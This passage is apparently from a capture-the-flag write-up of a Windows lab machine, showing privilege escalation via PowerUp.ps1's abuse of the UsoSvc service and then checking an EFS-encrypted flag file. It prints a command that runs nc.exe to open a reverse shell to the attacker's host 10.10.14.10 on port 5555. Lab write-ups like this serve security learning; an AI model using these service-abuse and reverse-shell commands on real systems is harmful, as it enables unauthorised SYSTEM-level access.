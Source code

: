 With this new user, i tried to enumerate with a powershell [script](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) POwerUp.ps1. And i found that we can abuse a service configuration. From powershell i load the script like :
```
. .\PowerUp.ps1
Invoke-AllChecks
.....
ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
```
Here the script tell us that we can use "Invoke-ServiceAbuse -Name 'UsoSvc'" , it will abuse the service "UsoSvc"configuration file rights, and create a ǹew user with admin rights, but i prefer to execute a command to have a new shell like :
We can do it like  : 
```
$ Invoke-ServiceAbuse -Name 'UsoSvc' -Command "C:\Users\Public\Music\nc.exe 10.10.14.10 5555 -e cmd"
ServiceAbused Command                                            
------------- -------                                            
UsoSvc        C:\Users\Public\Music\ncc.exe 10.10.14.10 5555 -e cmd
```
###### Nota: we have to execute a new rev shell with the shell caught with "Invoke-ServiceAbuse", because the first one will exit (the service can't start!!) 

### Shell as system

![system](https://github.com/roughiz/RE-walktrough/blob/master/system.png)

Now i tried to read the root.txt flag but i can't !! 
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
Access is denied.
```
It appears that this file is encrypted with EFS (Encyption File System), so to open it we have to authenticate as the user which encrypted it. And to know it i use command "cipher" like :
```
cipher /c root.txt

 Listing C:\Users\Administrator\Desktop\
 New files added to this directory will not be encrypted.

E root.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    RE\Administrator [Administrator(Administrator@RE)]
```